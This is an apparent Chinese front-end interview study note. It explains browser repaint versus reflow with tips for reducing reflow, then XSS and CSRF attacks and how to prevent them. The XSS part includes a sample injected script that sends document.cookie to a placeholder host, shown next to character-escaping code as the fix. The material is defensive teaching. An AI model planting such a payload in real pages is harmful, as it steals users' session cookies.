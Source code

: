 **连环问：网页重绘 repaint 和重排 reflow 有什么区别**

- **重绘**
  - 元素外观改变：如颜色、背景色
  - 但元素的尺寸、定位不变，不会影响其他元素的位置
- **重排**
  - 重新计算尺寸和布局，可能会影响其他元素的位置
  - 如元素高度的增加，可能会使相邻的元素位置改变
  - 重排必定触发重绘，重绘不一定触发重排。重绘的开销较小，重排的代价较高。
  - **减少重排的方法**
    - 使用`BFC`特性，不影响其他元素位置
    - 频繁触发（`resize`、`scroll`）使用节流和防抖
    - 使用`createDocumentFragment`批量操作`DOM`
    - 编码上，避免连续多次修改，可通过合并修改，一次触发
    - 对于大量不同的 `dom` 修改，可以先将其脱离文档流，比如使用绝对定位，或者 `display:none`，在文档流外修改完成后再放回文档里中
    - 动画实现的速度的选择，动画速度越快，回流次数越多，也可以选择使用 `requestAnimationFrame`
    - `css3` 硬件加速，`transform`、`opacity`、`filters`，开启后，会新建渲染层

## 常见的 web 前端攻击方式有哪些

**XSS**

- `Cross Site Script` 跨站脚本攻击
- 手段：黑客将 JS 代码插入到网页内容中，渲染时执行`JS`代码
- 预防：特殊字符串替换（前端或后端）

```
  // 用户提交
  const str = `<p>123123</p> <script> var img = document.createElement('image') // 把cookie传递到黑客网站 img可以跨域 img.src = 'https://xxx.com/api/xxx?cookie=' + document.cookie </script>`
  const newStr = str.replaceAll('<', '&lt;').replaceAll('>', '&gt;')
  // 替换字符，无法在页面中渲染
  // &lt;script&gt;

  var img = document.createElement('image')
  img.src = 'https://xxx.com/api/xxx?cookie=' + document.cookie
  // &lt;/script&gt;
```

**CSRF**

- `Cross Site Request Forgery` 跨站请求伪造
- 手段：黑盒诱导用户去访问另一个网站的接口，伪造请求
- 预防：严格的跨域限制 + 验证码机制
  - 判断 `referer`
  - 为`cookie`设置`sameSite`属性，禁止第三方网页跨域的请求能携带上`cookie`
  - 使用`token`
  - 关键接口使用短信验证码

> 注意：偷取`cookie`是`XSS`做的事，`CSRF`的作用是借用`cookie`，并不能获取`cookie`

**CSRF 攻击攻击原理及过程如下：**

- 用户登录了`A`网站，有了`cookie`
- 黑盒诱导用户到`B`网站，并发起`A`网站的请求
- `A`网站的`API`发现有`cookie`，会在请求中携带`A`网站的`cookie`，认为是用户自己操作的
